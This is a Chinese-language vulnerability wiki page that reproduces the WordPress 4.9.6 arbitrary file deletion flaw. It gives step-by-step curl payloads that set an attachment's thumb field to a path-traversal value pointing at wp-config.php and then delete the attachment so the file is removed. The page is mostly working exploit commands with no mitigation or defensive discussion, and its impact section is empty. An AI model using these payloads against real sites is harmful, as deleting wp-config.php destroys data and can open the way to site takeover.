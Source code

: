 Wordpress \<= 4.9.6 任意文件删除漏洞
====================================

一、漏洞简介
------------

利用条件L：需要进入后台

二、漏洞影响
------------

三、复现过程
------------

### 添加新媒体

访问[http://0-sec.org/wp-admin/upload.php，然后上传图片。](http://0-sec.org/wp-admin/upload.php，然后上传图片。)

![](/Users/aresx/Documents/VulWiki/.resource/Wordpress<=4.9.6任意文件删除漏洞/media/rId26.png)

### 将\$ meta \[\'thumb\'\]设置为我们要删除的文件

#### 单击我们在中上传的图像Step 2，并记住图像的ID。

![](/Users/aresx/Documents/VulWiki/.resource/Wordpress<=4.9.6任意文件删除漏洞/media/rId29.png)

#### 访问[http://0-sec.org/wp-admin/post.php?post=4&action=edit.\_wpnonce在页面源中查找](http://0-sec.org/wp-admin/post.php?post=4&action=edit._wpnonce在页面源中查找)

![](/Users/aresx/Documents/VulWiki/.resource/Wordpress<=4.9.6任意文件删除漏洞/media/rId32.png)

#### 发送有效载荷：

    curl -v 'http://0-sec.org/wp-admin/post.php?post=4' -H 'Cookie: ***' -d 'action=editattachment&_wpnonce=***&thumb=../../../../wp-config.php'

![](/Users/aresx/Documents/VulWiki/.resource/Wordpress<=4.9.6任意文件删除漏洞/media/rId34.png)

### 发动攻击

#### 在页面源码中查找 \_wpnonce

![](/Users/aresx/Documents/VulWiki/.resource/Wordpress<=4.9.6任意文件删除漏洞/media/rId37.png)

#### 发送有效载荷

    curl -v 'http://9c9b.vsplate.me/wp-admin/post.php?post=4' -H 'Cookie: ***' -d 'action=delete&_wpnonce=***'

![](/Users/aresx/Documents/VulWiki/.resource/Wordpress<=4.9.6任意文件删除漏洞/media/rId39.png)

#### 刷新页面

image
